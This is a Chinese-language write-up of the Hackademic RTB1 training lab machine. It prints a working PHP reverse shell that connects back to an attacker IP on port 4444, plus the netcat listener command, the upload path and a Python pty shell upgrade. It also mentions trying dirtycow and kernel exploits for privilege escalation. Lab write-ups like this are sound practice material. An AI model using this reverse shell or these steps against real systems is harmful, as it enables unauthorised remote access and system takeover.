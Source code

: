 我是上传的反弹shell
```
<?php
$ip = '192.168.218.148';  
$port = 4444;             
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', 
    array(0 => $sock, 1 => $sock, 2 => $sock), 
    $pipes);
?>
```
在kali上 **nc -lvnp 4444** 设置监听，然后访问  **ip/Hackademic_RTB1/wp-content/rev_01.php** 反弹shell

<img width="1917" height="94" alt="Image" src="https://github.com/user-attachments/assets/3b4a9efc-af05-4443-bc0f-6227f9855116" />

 python升级shell然后开始提权
`python -c 'import pty;pty.spawn("/bin/bash")'`

翻了很半天也没翻到什么有用的信息，就知道还有一个p0wnbox.team用户，那就上传linpeas扫描一下，发现有可能有 **dirtycow** 漏洞利用，试了一下exp，不行，在uname找一下有没有版本漏洞，又找到很多， 都试一下，试了很久都没成功，几乎所有的exp都试过了还是没有用，后面掉兔子洞了，又回去研究p0wnbox.team用户，卡了很久也没办法，看了wp。
需要使用下面的第二个exp，并且还需要扒到靶机上编译执行，不然会报错。
<img width="1919" height="97" alt="Image" src="https://github.com/user-attachments/assets/e6510aa2-9981-40cb-8c54-68f11ca48384" />

<img width="1919" height="584" alt="Image" src="https://github.com/user-attachments/assets/0d248cdf-505e-4948-909e-9ba5ae386aea" />

## 反思
这一台靶机前面拿shell的过程那可以一环套一环，一直有路子走，但是后面提权的部分，寻找exp的能力还是不行，导致被卡了很久，还需要着重练习一下提权姿势。这一台靶机也是非常接近实战，几乎是没有什么提示的，是很好的一台靶机。